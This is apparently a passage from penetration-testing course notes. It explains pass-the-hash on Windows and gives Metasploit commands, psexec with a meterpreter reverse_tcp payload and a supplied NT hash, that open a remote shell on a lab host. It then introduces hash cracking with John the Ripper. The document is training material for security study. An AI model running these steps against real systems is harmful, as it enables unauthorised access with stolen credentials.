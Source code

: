###### 8.7.1. Pass the hash
Pass-the-hash is a different kind of authentication attack that allows us to use LM & NT hashes to gain access to remote Windows host without having to know the actual password: we will only use the hash.

You will see more of this in Network Security section.

For now, let's just give it a look by using Metasploit.

Let's suppose you get the hash for user **eLS** on **Box A** and you know that user eLS also have access to box B. You can run payloads on Box B even if Box B is immune from any exploit.

Steps:
1. Let us configure the module in Metasploit:
```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.88.132
msf exploit(psexec) > set LPORT 443
msf exploit(psexec) > set RHOST 192.168.88.134
```

Where:
- In the first line we select the exploit module
- Then the payload to run on the remote system (this will allow us to gain a meterpreter shell)
- LHOST is our host (local)
- LPORT is our port
- RHOST is remote victim host

2. After that we can set the user (that will be **eLS**) and the password, where we will insert the hash.
```
msf exploit(psexec) > set SMBUser eLS
msf exploit(psexec) > set SMBPass 00000000000000000000000000000000:0446385C4CBFBAED9F33E1D7B00E184C
msf exploit(psexec) > exploit

```

Note that if you do not have both LM and NT hashes, you can set one of them with 32 0's.

Note that this is just a quick look on how to perform a pass-the-hash using Metasploit framework.

##### 8.7.2 Crack the hash
Fist, we need the hash of the password that we have gained through the previous techniques.

Then we will use the correct hash function to hash plaintexts of likely passwords.

When you get a match, whatever string you used to generate your hash, that's the password you are looking for.

Since this can be rather time-consuming, there are many ways to do hat, and many tools that automate this step.

Remember that the time required to crack a hash is strictly depending on the hardware you have.

A hash can be cracked using a CPU or a GPU.

- **CPU - JtR**
One the most famous password crackers is [John the Ripper](http://www.openwall.com/john/).
